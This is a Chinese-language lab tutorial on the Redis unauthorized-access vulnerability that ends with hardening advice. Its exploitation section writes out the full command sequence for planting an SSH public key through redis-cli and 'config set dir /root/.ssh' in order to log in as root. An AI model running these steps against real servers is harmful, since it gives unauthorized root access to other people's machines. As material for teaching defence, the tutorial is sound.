 ## 一. 应用介绍

　　Redis是一个开源的使用ANSI C语言编写、支持网络、可基于内存亦可持久化的日志型、 Key-Value数据库。和Memcached类似，它支持存储的value 类型相对更多，包括 string\(字符串\)、list \( 链表\)、 set\(集合\)、zset\(sorted set – 有序集合\)和 hash（哈希类型）。这些数据类型都支持push/pop 、 add/remove 及取交集并集和差集及更丰富的操作，而且这些操作都是原子性的。在此基础上， redis支持各种不同方式的排序。与 memcached 一样，为了保证效率，数据都是缓存在内存中。区别的是 redis 会周期性的把更新的数据写入磁盘或者把修改操作写入追加的记录文件，并且在此基础上实现了 master-slave \( 主从\)同步。

---

## 二. 漏洞介绍

　　Redis在默认情况下，会绑定在`0.0.0.0:6379`。如果没有采取相关的安全策略，比如添加防火墙规则、避免其他非信任来源IP访问等，这样会使Redis服务完全暴露在公网上。如果在没有设置密码认证\(一般为空\)的情况下，会导致任意用户在访问目标服务器时，可以在未授权的情况下访问Redis以及读取Redis的数据。攻击者在未授权访问Redis的情况下，利用Redis自身的提供的**config**命令，可以进行文件的读写等操作。攻击者可以成功地将自己的ssh公钥写入到目标服务器的`/root/.ssh`文件夹下的`authotrized_keys`文件中，进而可以使用对应地私钥直接使用ssh服务登录目标服务器。

简单来讲，我们可以将漏洞的产生归结为两点:

> * **redis绑定在`0.0.0.0:6379`，且没有进行添加防火墙规则、避免其他非信任来源IP访问等相关安全策略，直接暴露在公网上**
>
> * **没有设置密码认证\(一般为空\)，可以免密码远程登录redis服务**

![](/assets/redis-1.png)

漏洞可能产生的危害:

> * 攻击者无需认证访问到内部数据，可能导致敏感信息泄露，黑客也可以通过恶意执行`flushall`来清空所有数据
>
> * 攻击者可通过EVAL执行lua代码，或通过数据备份功能往磁盘写入后门文件
>
> * 如果Redis以root身份运行，黑客可以给root账户写入SSH公钥文件，直接通过SSH登录受害者服务器



---

## 三. Redis未授权访问漏洞的利用

#### **安装redis**

```
wget http://download.redis.io/releases/redis-4.0.0.tar.gz

tar -zxvf redis-4.0.0.tar.gz

yum install gcc -y

cd redis-4.0.0

make MALLOC=libc

cd src && make install


```

#### 启动redis

```
./redis-server

使用配置文件启动

redis-server ../redis.conf
```

![](/assets/redis-2.png)

去掉ip绑定，允许除本地外的主机远程登录redis服务:

![](/assets/redis-3.png)

关闭保护模式，允许远程连接redis服务:

![](/assets/redis-4.png)



这里攻击方为attackA，服务器为serverB

把attackA的ssh公钥保存

```
(echo -e "\n\n";cat id_rsa.pub; echo -e "\n\n") > key.txt
```

将kitty.txt写入redis\(使用redis-cli -h IP命令连接主机A，将文件写入\)

```
root@kali:~/.ssh# cat key.txt | redis-cli -h 10.100.50.75 -x set xxx
OK
```

10.100.50.75为serverB的ip

**从attackA远程登录serverB的redis服务:`redis-cli -h 10.100.50.75`并使用`config get dir`命令得到redis备份的路径**

![](/assets/redis-5.png)

更改redis备份路径为ssh公钥存放目录\(一般默认为/root/.ssh）

```
config set dir /root/.ssh
```

设置上传公钥的备份文件名字为authorized\_keys

```
config set dbfilename authorized_keys
```

![](/assets/redis-7.png)

在attackA上使用ssh登录serverB

```
ssh root@10.100.50.75

```

---

## 四. Redis未授权访问漏洞的防护

#### 禁止远程使用一些高危命令 {#autoid-1-3-0}

我们可以通过修改redis.conf文件来禁用远程修改DB文件地址

```
rename-command FLUSHALL ""
rename-command CONFIG   ""
rename-command EVAL     ""
```

#### 低权限运行Redis服务 {#autoid-1-3-0}

为Redis服务创建单独的`user`和`home`目录，并且配置禁止登陆

```
groupadd -r redis && useradd -r -g redis redis
```

#### 为Redis添加密码验证 {#autoid-1-3-0}

我们可以通过修改redis.conf文件来为Redis添加密码验证

```
requirepass mypassword
```

#### 禁止外网访问 Redis {#autoid-1-3-0}

我们可以通过修改redis.conf文件来使得Redis服务只在当前主机可用

```
bind 127.0.0.1(绑定需要调用redis的远程ip地址)

bind 192.168.1.100 10.0.0.1(也可绑定多个ip)
```

#### 保证authorized\_keys文件的安全 {#autoid-1-3-0}

为了保证安全，您应该阻止其他用户添加新的公钥。将`authorized_keys`的权限设置为对拥有者只读，其他用户没有任何权限

```
chmod 400 ~/.ssh/authorized_keys
```

为保证`authorized_keys`的权限不会被改掉，您还需要设置该文件的immutable位权限

```
chattr +i ~/.ssh/authorized_keys
```

然而，用户还可以重命名`~/.ssh`，然后新建新的`~/.ssh`目录和`authorized_keys`文件。要避免这种情况，需要设置`~./ssh`的immutable位权限

```
chattr +i ~/.ssh
```

如果需要添加新的公钥，需要移除`authorized_keys`的 immutable 位权限。然后，添加好新的公钥之后，按照上述步骤重新加上immutable位权限

